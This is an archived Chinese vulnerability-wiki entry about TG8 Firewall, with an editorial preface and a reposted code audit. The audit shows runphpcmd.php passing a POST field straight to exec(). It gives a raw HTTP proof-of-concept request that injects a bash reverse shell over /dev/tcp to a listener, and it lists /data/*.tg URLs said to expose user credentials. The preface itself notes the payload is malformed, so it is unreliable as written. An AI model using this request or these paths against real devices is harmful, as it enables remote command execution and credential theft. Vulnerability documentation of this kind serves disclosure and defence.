



# TG8 Firewall RCE 和 信息泄露

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：TG8 Firewall
- 文献类型：代码审计与两类PoC
- 版本、权限及部署边界：版本未给；runphpcmd.php是否额外鉴权/上层限制未列；读取/data配置
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 把前端checkLogin JS当runphpcmd源码，实际PHP另列；前端请求可改与后端exec拼接分别解释
2. payload声称空格用%2f替换错误，%2f是斜杠；反弹片段bash/-i/含错误且未编码&会拆表单，HTTP缺空行/长度错
3. sudo前置命令不自动使分号后的shell拥有root，需sudoers规则和服务权限，不能直接等同rootRCE
4. 命令执行和配置泄露应两实体，配置URL仅列路径无内容/鉴权证据；无版本修复或厂商原始来源

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/dFFQ2bxRfDWdc8W0nWthgQ>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://github.com/MrWQ/vulnerability-paper>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dFFQ2bxRfDWdc8W0nWthgQ)

**1、描述**

  

TG8 Firewall RCE 和 信息泄露  

  

  

  

  

  

**2、影响范围**

  

TG8 Firewall  

  

  

  

  

  

**3、代码审计**

  

  

演示一下

该漏洞原因为在 index.php 文件中调用了 runphpcmd.php，其中一行代码为

```
'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
```

从以上可以看到以 sudo 来调用 cmd，显然这里我们可以进行替换，进行任意命令执行。但是我们还有看一下 runphpcmd.php 里面是否有对其的限制和过滤，runphpcmd.php 源码为：

```
function checkLogin() {
    var username = $('input[name=u]').val();
    var pass = $('input[name=p]').val();
    var cmd = 'sudo /home/TG8/v3/syscmd/check_gui_login.sh ' + username + ' ' + pass;
    $.ajax({
      url: "runphpcmd.php",
      type: "post",
      dataType: "json",
      cache: "false",
      data: {
        syscmd: cmd
      },
      success: function (x) {
        if (x == 'OK') {
          ok(username);
        } else {
          failed();
        }
      },
      error: function () {
      ok(username);
        // alert("failure to excute the command");
      }
    })
  }
```

从以上源码可以看出来，并没有对 syscmd 的内容进行验证，结果直接就以 json 格式返回给调用者。  

```
<?php
  header('Content-Type: application/json');
  $response= array();
  $output= array();
  $cmd_1 = $_POST['syscmd'];
  $data = 'cmd= '.$cmd_1."\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  exec($cmd_1,$output,$ret);
  $data = ' output ='. json_encode($output)."\n*******************************************************\n";
  $fp = fopen('/opt/phpJS.log', 'a');
  fwrite($fp, $data);
  $response[] = array("result" => $output);
  // Encoding array in JSON format
  echo json_encode($output);
?>
```

所以我们就可以构造 payload 了，如下：  

```
POST /admin/runphpcmd.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Connection: keep-alive
syscmd=sudo+%2Fhome%2FTG8%2Fv3%2Fsyscmd%2Fcheck_gui_login.sh+%3Bbash%2F-i%2F>&%2F/dev/tcp/127.0.0.1/10086%2F0>&1%3B++local
```

空格用 %2f 替换，‘;’用 %3B 替换

2、信息泄露  

任何用户都可以通过访问以下 url 路径来枚举防火墙的用户和密码信息。  

```
http://127.0.0.1/data/w-341.tg
http://127.0.0.1/data/w-342.tg
http://127.0.0.1/data/r-341.tg
http://127.0.0.1/data/r-342.tg
```

公众号

公开漏洞库地址：**wiki.xypbk.com**

请勿用于非法入侵，后果自负。

数据大多来源于网络、零组文库和 peiqi 文库和本站挖掘的漏洞，若侵权请联系微信公众号 “Qingy 之安全” 进行删除处理。

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

只为大家提供便利，绝无任何利益，希望大家不要乱来，承担了很大的风险。







---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
